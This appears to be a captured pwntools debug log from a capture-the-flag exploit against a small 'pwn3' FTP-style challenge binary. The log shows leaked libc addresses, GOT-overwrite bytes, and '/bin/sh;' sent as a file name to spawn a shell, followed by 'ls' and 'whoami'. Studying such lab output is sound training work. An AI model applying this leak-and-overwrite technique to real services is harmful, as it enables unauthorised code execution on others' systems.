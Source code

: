 ```python
    00000009
[DEBUG] Sent 0x4 bytes:
    'get\n'
[DEBUG] Received 0x28 bytes:
    'ftp>enter the file name you want to get:'
[DEBUG] Sent 0xb bytes:
    'Cyberangel\n'
[DEBUG] Received 0x20 bytes:
    00000000  b0 7c da f7  26 85 04 08  36 85 04 08  50 05 d6 f7  │·|··│&···│6···│P···│
    00000010  d0 40 da f7  e0 43 e8 f7  28 a0 04 08  66 74 70 3e  │·@··│·C··│(···│ftp>│
    00000020
[DEBUG] PLT 0x176b0 _Unwind_Find_FDE
[DEBUG] PLT 0x176c0 realloc
[DEBUG] PLT 0x176e0 memalign
[DEBUG] PLT 0x17710 _dl_find_dso_for_object
[DEBUG] PLT 0x17720 calloc
[DEBUG] PLT 0x17730 ___tls_get_addr
[DEBUG] PLT 0x17740 malloc
[DEBUG] PLT 0x17748 free
[*] '/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] Sent 0x4 bytes:
    'put\n'
[DEBUG] Received 0x35 bytes:
    'please enter the name of the file you want to upload:'
[DEBUG] Received 0x4 bytes:
    'ftp>'
[DEBUG] Sent 0x4 bytes:
    'get\n'
[DEBUG] Received 0x24 bytes:
    'enter the file name you want to get:'
[DEBUG] Sent 0x9 bytes:
    '/bin/sh;\n'
[DEBUG] Sent 0x4 bytes:
    'dir\n'
[*] Switching to interactive mode
[DEBUG] Received 0x10e bytes:
    00000000  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    00000020  20 20 20 20  20 20 20 20  20 20 20 20  30 20 20 20  │    │    │    │0   │
    00000030  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000000a0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 04  │    │    │    │   ·│
    000000b0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000000d0  20 20 20 20  20 20 20 3e  20 20 20 20  20 20 20 20  │    │   >│    │    │
    000000e0  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    000000f0  20 20 20 20  20 20 47 61  61 61 29 a0  04 08 28 a0  │    │  Ga│aa)·│··(·│
    00000100  04 08 2a a0  04 08 2b a0  04 08 66 74  70 3e        │··*·│··+·│··ft│p>│
    0000010e
                                            0                                                                                                                                  \x04                                      >                              Gaaa)\xa0\x04(\xa0\x04*\xa0\x04+\xa0\x04ftp>$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x31 bytes:
    '1.py  edb  Link to edb\tpwn3  pwndbg-dev  smashes\n'
1.py  edb  Link to edb    pwn3  pwndbg-dev  smashes
$ whoami
```